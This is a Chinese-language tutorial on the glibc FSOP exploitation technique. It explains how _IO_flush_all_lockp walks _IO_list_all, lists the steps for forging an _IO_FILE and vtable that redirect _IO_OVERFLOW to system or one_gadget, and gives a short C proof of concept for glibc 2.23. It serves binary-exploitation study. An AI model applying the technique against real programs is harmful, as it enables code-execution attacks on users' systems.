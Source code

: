 # FSOP

### 简介

`FSOP` 的核心思想就是劫持`_IO_list_all` 的值来伪造链表和其中的`_IO_FILE` 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。`FSOP` 选择的触发方法是调用`_IO_flush_all_lockp`，这个函数会刷新`_IO_list_all `链表中所有项的文件流，相当于对每个 `FILE` 调用 `fflush`，也对应着会调用`_IO_FILE_plus.vtable` 中的`_IO_overflow`。

#### 关于 `_IO_flush_all_lockp`

`_IOflush_all_lockp` 的核心功能是刷新所有已经打开的文件流的缓冲区道内核或底层存储设备

##### **核心功能**

1. **遍历链表与刷新缓冲区**
   `_IO_flush_all_lockp` 会从全局变量 `_IO_list_all` 开始遍历所有 `_IO_FILE` 结构体组成的链表，对每个文件流调用其虚表（vtable）中的 `_IO_OVERFLOW` 函数，完成缓冲区的刷新操作
   - **刷新逻辑**：相当于对每个文件流隐式调用 `fflush`，确保未写入的数据（如 `stdout` 的缓冲区内容）被提交到内核。
2. **调用虚函数 `_IO_OVERFLOW`**
   每个文件流的刷新操作通过虚表中的 `_IO_OVERFLOW` 实现。例如，标准输出流 `stdout` 的 `_IO_OVERFLOW` 最终会调用 `write` 系统调用，将数据写入文件描述符。

##### 触发场景

`_IO_flush_all_lockp` 在以下三种场景下会被自动调用

1. **程序调用 `exit()` 函数**
   在程序正常退出时，确保所有未刷新的数据被写入。
2. **`main` 函数返回**
   当主函数执行完毕返回时，隐式调用 `exit()`。
3. **程序执行 `abort()` 流程**
   当 GLIBC 检测到内存错误（如堆损坏）或其他致命错误时，会触发 `abort()`，进而调用此函数。

##### 需满足条件

- fp->_mode <= 0
- fp->_IO_write_ptr > fp->_IO_write_base

```C
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
               && _IO_OVERFLOW (fp, EOF) == EOF)
          {
               result = EOF;
          }
```

### 攻击利用

1. 伪造`fake_IO_list_all`。
2. 为了触发`_IO_OVERFLOW`，设置`_mode`为 0,设置writeptr > writebase。
3. 伪造虚表vtable，将`_IO_OVERFLOW` 设置为`system`或`one_gadget`的地址。
4. 篡改`IO_list_all `中的地址，至`fake_IO_list_all`。
5. 执行exit，或让内存错误，或等main函数返回。
6. 触发`_IO_flush_all_lockp`进行利用。

#### POC

glibc 2.23版本

```C
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);
    *(long long*)((long long)ptr+0x100+24)=0x41414141;
    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

